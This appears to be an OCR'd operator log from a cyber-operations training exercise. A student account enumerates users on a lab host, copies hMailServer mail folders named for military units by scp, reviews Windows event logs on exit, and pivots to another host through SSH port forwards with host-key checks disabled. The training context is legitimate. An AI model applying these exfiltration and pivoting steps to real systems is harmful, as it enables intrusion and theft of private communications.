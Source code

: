 2024-03-25 12:19:45-- time /t
04:21 PM

2024-03-25 12:22:53-- net user
Admin                    Administrator            askar1
askar10                  askar11                  askar12
askar13                  askar14                  askar15
askar16                  askar17                  askar18
askar19                  askar2                   askar20
askar21                  askar22                  askar23
askar3                   askar4                   askar5
askar6                   askar7                   askar8
askar9                   cloudbase-init           DefaultAccount
Guest                    sshd                     WDAGUtilityAccount

2024-03-25 13:25:02-- start survey

2024-03-25 13:43:04-- survey complete

2024-03-25 14:00:26-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Air Defense\*"' /student12_25-03-24_BB01

2024-03-25 14:04:51-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Armored Cavalry\*"' /student12_25-03-24_BB01/T4_Armored_Cavalry

2024-03-25 14:05:08-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Command Elements\*"' /student12_25-03-24_BB01/T4_Command_Elements

2024-03-25 14:05:20-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Cyber-Comms Detachment\*"' /student12_25-03-24_BB01/T4_Cyber-Comms_Detatchment

2024-03-25 14:05:49-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Ground Forces\*"' /student12_25-03-24_BB01/T4_Ground_Forces

2024-03-25 14:06:37-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\R&D\*"' /student12_25-03-24_BB01/T4_RnD

2024-03-25 14:06:50-- scp -r -T -P 5555 -o ControlPath=/tmp/T5 askar12@10.101.169.30:'"c:\Program Files (x86)\hMailServer\Data\Workgroup\Supply\*"' /student12_25-03-24_BB01/T4_Supply

2024-03-25 14:37:03-- exit vetting
State.evtx
Microsoft-Windows-User Profile Service%4Operational.evtx
Security.evtx
Application.evtx

2024-03-25 14:39:13-- exit vet complete

2024-03-25 14:39:40-- exit

------------------------X
=========================

=========================
T6: 10.101.169.35
=========================
X-----------------------
2024-03-25 14:09:56-- ssh -S /tmp/T4 -O forward -L127.0.0.1:6666:10.101.169.35:33501 dummy
2024-03-25 14:10:08-- ssh -MS /tmp/T6 -p 6666 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null askar12@127.0.0.1
